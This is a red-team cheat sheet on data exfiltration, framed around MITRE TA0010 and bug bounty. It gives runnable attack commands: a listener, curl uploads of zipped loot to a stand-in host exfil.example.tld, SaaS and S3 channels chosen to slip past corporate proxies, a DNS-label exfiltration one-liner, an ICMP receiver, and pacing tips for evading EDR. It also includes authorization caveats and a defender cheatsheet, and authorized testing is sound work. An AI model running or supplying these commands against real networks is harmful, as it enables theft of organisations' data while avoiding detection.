

# Exfiltration

Authorized engagements only. In bug bounty, never exfil real customer data — proof-of-access is usually a single file hash, screenshot of directory listing, or whoami output.

MITRE: https://attack.mitre.org/tactics/TA0010/.

## Channel selection



Rule of thumb:

- If 443 is open to arbitrary destinations → HTTPS to attacker domain, TLS, sane UA.
- If 443 is inspected but SaaS is whitelisted (Dropbox, Drive, GitHub, Slack, S3) → use those.
- If egress is only DNS/ICMP → DNS exfil, slow.
- If fully air-gapped → out of scope for bounty.

## HTTPS

Server setup — Caddy is the shortest path:

```
# Caddyfile
exfil.example.tld {
  @upload method POST
  handle @upload {
    request_body { max_size 100MB }
    reverse_proxy localhost:9000
  }
}
```

Listener (Python, for engagement only):

```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class H(BaseHTTPRequestHandler):
    def do_POST(self):
        n = int(self.headers.get('Content-Length', 0))
        open(self.path.lstrip('/').replace('/', '_') or 'blob', 'wb').write(self.rfile.read(n))
        self.send_response(200); self.end_headers()

HTTPServer(('127.0.0.1', 9000), H).serve_forever()
```

Client upload — curl:

```
curl --tlsv1.2 -H 'User-Agent: Mozilla/5.0' --data-binary @report.zip https://exfil.example.tld/r1
```

Go binary with pinned cert, chunked upload, jitter — preferred for agents. Implement in the C2 framework rather than ad-hoc.

## Cloud storage / SaaS

The list of domains routinely whitelisted by corporate proxies:

- `*.amazonaws.com` — S3 presigned upload
- `*.blob.core.windows.net` — Azure Blob SAS
- `storage.googleapis.com` — GCS signed URL
- `*.dropboxusercontent.com` — Dropbox API v2 `/files/upload`
- `*.googleusercontent.com` — Drive upload
- `api.github.com` / `gist.githubusercontent.com` — GitHub gists (public or auth'd private)
- `api.telegram.org`, `discord.com/api` — chat APIs
- `*.slack.com` — Slack files.upload

Use short-lived tokens, limited scope. For bounty, a single HTTPS POST to your own domain is better — less cross-contamination and clearer report attribution.

### S3 presigned

```
aws s3 presign s3://bucket/key --expires-in 900
curl -X PUT --upload-file loot.zip 'https://bucket.s3.amazonaws.com/key?...'
```

### GitHub Gist

```
curl -u token:$GH -H 'Accept: application/vnd.github+json' \
  https://api.github.com/gists -d @gist.json
```

Paste-sites alternative to gist (legitimate, still alive as of 2026 — verify before relying on): hastebin (https://hastebin.com), dpaste (https://dpaste.org), GitHub gist API (primary recommendation).

Note: Pastebin.com has rate-limits and bot detection; rkeep bot / mass-paste accounts get banned quickly. termbin over netcat (`nc termbin.com 9999`) is legit but flagged by egress filters looking at port 9999.

## DNS exfiltration

Concept: encode data (base32/base64url) into subdomain labels of a domain you control; attacker-side `named`/`dnslib` logs queries, reassembles.

Tools:

- iodine (IP-over-DNS tunnel) — https://github.com/yarrick/iodine
- dnscat2 (C2 + exfil over DNS) — https://github.com/iagox86/dnscat2
- dns-tunnel patterns in Metasploit / Sliver

Sketch of a pure exfil (authorised lab):

```
# Server: authoritative for exfil.example.tld pointed at VPS
# Simple CNAME-logger
sudo named -c named.conf -g
# Client: encode and send labels under exfil.example.tld
xxd -p file.bin | tr -d '\n' | fold -w 30 | awk '{print $0".exfil.example.tld"}' | while read d; do dig +short +timeout=1 $d @8.8.8.8 >/dev/null; done
```

Throughput: ~1KB/s realistic when pacing to avoid detection. Good for a handful of kilobytes, not bulk data.

Detection references:

- Cisco Umbrella / DNS analytics flag high-entropy subdomains, long labels, abnormal query rate.
- Sigma DNS rules — https://github.com/SigmaHQ/sigma/tree/master/rules/dns
- Zeek `dns.log` with `query_length`/`entropy` scripts.

## ICMP

`hping3`, custom `scapy` payloads in ICMP echo. Low bandwidth, surprisingly often allowed outbound.

```
# Receiver (Scapy)
from scapy.all import sniff
sniff(filter='icmp and icmp[0]=8', prn=lambda p: open('icmp.bin','ab').write(bytes(p[Raw])))
```

## Throttling + chunking

- Chunk size: 1–8 MB for HTTPS, 30–60 bytes for DNS.
- Jitter: 30–50% between chunks.
- Total session cap: most EDR flags single-flow uploads > 100MB in under 5min.
- Split across multiple destinations when possible.
- For bounty: don't exfil. Prove reach, stop.

## Compression + encryption

- 7z with `-mx=9 -p` for size + password (engagement key, rotate per op).
- zstd for speed.
- age (https://github.com/FiloSottile/age) for authenticated encryption — drop-in `age-keygen` / `age -r pubkey`.

Always encrypt before transport; even over TLS, the data lives briefly on the exfil box.

## Detection / defense cheatsheet

- DLP: content inspection on egress. Keywords, regex for SSN/PAN/creds.
- CASB: blocks unsanctioned SaaS.
- Netflow baselining: hosts suddenly pushing gigabytes.
- DNS monitoring: entropy, query length, NXDOMAIN spikes.
- TLS JA3 fingerprinting against known tooling.
- Egress ACLs: allowlist destinations, block direct IP HTTPS, block dynamic DNS.
- CDR (content disarm) on outbound attachments.
- UEBA for anomalous upload times.

## Bug bounty specific

- Prove the vector with minimal PoC: filename count, directory listing, file hash — never the file contents if they are customer data.
- Never touch PII beyond what's needed to demonstrate. Document this in the report.
- If SSRF → cloud metadata, fetch caller identity only. Don't enumerate all roles.
- If RCE, prove with `id` / `hostname` / `whoami` — not with a database dump.

## References

- MITRE TA0010 — https://attack.mitre.org/tactics/TA0010/
- HackTricks exfil — https://book.hacktricks.wiki/en/generic-methodologies-and-resources/exfiltration.html
- iodine — https://github.com/yarrick/iodine
- dnscat2 — https://github.com/iagox86/dnscat2
- age — https://github.com/FiloSottile/age
- Sigma DNS rules — https://github.com/SigmaHQ/sigma
